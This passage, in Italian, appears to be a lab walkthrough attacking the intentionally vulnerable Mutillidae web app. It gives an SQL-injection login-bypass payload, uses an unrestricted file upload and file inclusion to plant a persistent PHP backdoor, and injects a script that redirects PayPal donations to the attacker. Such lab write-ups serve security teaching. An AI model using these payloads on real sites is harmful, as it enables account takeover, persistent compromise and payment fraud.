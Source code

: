 	username: "admin' AND 1 = 1; -- " (SENZA virgolette)
	password: [qualsiasi cosa]
Abbiamo individuato, tramite ad esempio una tecnica di social engineering o un più semplice attacco a dizionario, un utente che potenzialmente possiede i diritti amministrativi ma non ne conosciamo la password;
Abbiamo però trovato una vulnerabilità che ci consente di effettuare una authentication bypass mediante SQL injection!
La webapp effettua la seguente query al database per validare l'accesso, passando dei parametri inviati dal client e non sanitizzati:

	"SELECT username FROM accounts WHERE username='$username' AND password='$password'"

Con i parametri che abbiamo fornito poc'anzi, abbiamo craftato la seguente query:

	SELECT username FROM accounts WHERE username='admin' AND 1 = 1; -- ' AND password='[qualsiasi cosa]'

Equivalente a (il simbolo -- in SQL identifica un commento):

	SELECT username FROM accounts WHERE username='admin' AND 1 = 1;

-> Possiamo impersonificare qualsiasi utente conoscendone solo l'username!

**Passo 3: Installazione della backdoor**
Una volta loggati nella webapp come admin, abbiamo la possibilità di caricare files sul server all'indirizzo http://testserver.mshome.net/index.php?page=upload-file.php
(In realtà, su Mutillidae, questa pagina è accessibile anche senza effettuare il login, ma in uno scenario più verosimile una pagina analoga richiederebbe un accesso privilegiato)
Il processo di upload è affetto da una security weakness che ci consente di caricare qualsiasi file sul server (Unrestricted file upload)

Una volta effettuato l'upload della backdoor, il server risponde informandoci che essa è stata caricata in /tmp/list.php, dunque (al momento) non è persistente, per accedervi usiamo la vulnerabilità al punto 1:
http://testserver.mshome.net/index.php?page=/tmp/list.php
E, utilizzando la backdoor stessa, carichiamola nella root del webserver (*/var/www/html*) per renderla persistente.

*ora la backdoor sarà accessibile da http://testserver.mshome.net/list.php e la sua possibile esecuzione non dipenderà più dal fatto che la vulnerabilità sfruttata sia presente sul server!*

**Passo 4: LETZ PWN!!1!11!!**
Iniettiamo del codice nella webapp per effettuare la modifica dell'indirizzo di destinazione della donazione:
La nostra intenzione è quella di modificare il contenuto del tag di input con name hosted_button_id, cambiando il valore da 45R3YEXENU97S (che corrisponde al codice Paypal di Mutillidae) a 573V3NS0 (il nostro ipotetico codice di Paypal);
A tale scopo possiamo agire iniettando uno script javascript che modifichi il DOM, senza dunque modificare questo parametro nella pagina originale/nel record del database dov'é memorizzato.
Procediamo dunque ad effettuare il download del file di index.php tramite la backdoor precedentemente caricata ed iniettiamo il seguente frammento di codice alla fine del file:

	<script>window.addEventListener("load",function(){document.getElementsByName("hosted_button_id")[0].setAttribute("value","573V3NS0");});</script>

Dalla backdoor aggiorniamo il file index.php con quello appena modificato ed aggiorniamo la pagina per verificare che la modifica apportata sia funzionante.

***Pwn completato con successo!***
